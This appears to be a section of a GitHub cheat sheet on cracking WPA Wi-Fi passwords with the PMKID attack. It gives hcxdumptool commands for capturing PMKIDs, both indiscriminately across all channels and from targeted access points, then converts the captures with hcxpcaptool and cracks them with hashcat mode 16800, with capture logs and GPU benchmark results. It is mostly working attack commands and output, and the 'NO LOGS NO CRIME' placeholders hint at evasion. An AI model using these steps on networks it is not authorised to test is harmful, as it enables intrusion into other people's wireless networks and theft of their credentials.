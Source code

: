#### 5.1. References
```
https://github.com/ZerBea/hcxdumptool
https://github.com/ZerBea/hcxtools
https://github.com/hashcat/hashcat
https://hashcat.net/forum/thread-7717.html
```


#### 5.2. Target AP by MAC addresses
```
# cat targets
DEADBEEF0001
DEADBEEF0002
DEADBEEF0003
DEADBEEF0004
```


#### 5.3. Collecting PMKIDs

Prerequisites: interface must be in monitor mode

1) *Wild Wild West* approach
```
# channels=1,2,3,4,5,6,7,8,9,10,11,12,13,14,34,36,38,40,42,44,46,48,52,56,58,60,62,64,100,104,108,112,116,120,124,128,132,,136,140,144,147,149,151,153,155,157,161,165,167,169,184,188,192,196,200,204,208,212,216
# hcxdumptool -o WWW.pcapng -i wlan0 --enable_status=3 -c $channels
```


2) Targeted
```
# hcxdumptool -o beef.pcapng -i $iface -c 136, 60, 52 \
--enable_status=3 --filterlist=beef --filtermode=2

...
[04:39:48 - 136] deadbeef0001 -> deadbeeffff1 [FOUND PMKID CLIENT-LESS]
[04:39:50 - 136] deadbeef0002 -> ffffffffffff CG-WLAN [PROBEREQUEST, SEQUENCE 2076]
[04:39:56 - 136] deadbeef0003 -> deadbeeffff2 [FOUND PMKID CLIENT-LESS]
[04:40:15 - 136] deadbeef0004 -> ffffffffffff lisy [PROBEREQUEST, SEQUENCE 517]
INFO: cha=136, rx=16166, rx(dropped)=541, tx=51, powned=2, err=0^C
terminated...
```


#### 5.4. Convert PMKID to WPA-PMKID-PBKDF2 hash
```
# hcxpcaptool -z beef.16800 beef.pcapng
...
EAPOL PMKIDs.................: 2

2 PMKID(s) written to beef.16800
```


#### 5.5. Cracking via `hashcat`
```
# hashcat -m 16800 beef.16800 passwords.txt
```


#### 5.6. Hashcat benchmarks

Performance per hash type: `WPA-PMKID-PBKDF2 ~ 1440 kH/s`

Hardware info:
```
OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: Tesla P100-PCIE-16GB, 4070/16280 MB allocatable, 56MCU
* Device #2: Tesla P100-PCIE-16GB, 4070/16280 MB allocatable, 56MCU
* Device #3: Tesla P100-PCIE-16GB, 4070/16280 MB allocatable, 56MCU
* Device #4: Tesla P100-PCIE-16GB, 4070/16280 MB allocatable, 56MCU
```

Test 1:
```
Time.Started.....: [NO LOGS NO CRIME] (1 min, 46 secs)
Time.Estimated...: [NO LOGS NO CRIME] (1 hour, 47 mins)
Guess.Mask.......: ?d?d?d?d?d?d?d?d?d?d [10]
Guess.Queue......: 1/1 (100.00%)
```

Test 2:
```
Time.Started.....: [NO LOGS NO CRIME] (2 mins, 34 secs)
Time.Estimated...: [NO LOGS NO CRIME] (8 days, 6 hours)
Guess.Mask.......: ?1?1?1?1?1?1?1?1?1?1 [10]
Guess.Charset....: -1 abcdef0123456789, -2 Undefined, -3 Undefined, -4 Undefined 
Guess.Queue......: 1/1 (100.00%)
```

Test 3:
```
Time.Started.....: [NO LOGS NO CRIME] (1 min, 13 secs)
Time.Estimated...: [NO LOGS NO CRIME] (1 day, 14 hours)
Guess.Mask.......: ?l?l?l?l?l?l?l?l [8]
Guess.Queue......: 1/1 (100.00%)
```

Test 4:
```
Time.Started.....: [NO LOGS NO CRIME] (59 secs)
Time.Estimated...: [NO LOGS NO CRIME] (4 mins, 54 secs)
Guess.Base.......: File (crackstation-human-only.txt)
Guess.Queue......: 1/1 (100.00%)
```
